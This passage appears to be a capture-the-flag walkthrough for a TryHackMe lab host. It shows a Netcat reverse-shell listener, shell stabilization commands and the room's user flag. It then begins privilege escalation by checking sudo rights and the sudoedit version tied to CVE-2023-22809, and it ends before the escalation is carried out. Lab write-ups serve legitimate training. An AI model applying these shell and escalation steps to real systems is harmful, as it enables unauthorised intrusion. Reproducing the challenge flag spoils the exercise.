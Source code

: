 Set up the listener with [[Netcat]] and execute it by pasting it in the password field after the password :

![[Pasted image 20250720140643.png]]

Now we check [[Netcat]] :

```
whoami
web
cat user.txt
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```
## Shell Stabilization

We can do now [[Shell Stabilization]] :

```
export TERM=xterm    
python3 -c 'import pty;pty.spawn("/bin/bash")'  
web@cyprusbank:~$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                        
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Whiterose]
└─$ stty raw -echo;fg 
[1]  + continued  nc -lvnp 1337
                               reset
web@cyprusbank:~$ 

```

Now we have a more stabile shell .

# Privilege Escalation

[[CVE-2023-22809]]

We start [[Privilege Escalation]] checking for `sudo -l` :

```
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

So now we check the version for `sudoedit` :

```
web@cyprusbank:/$ sudoedit --version
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
```
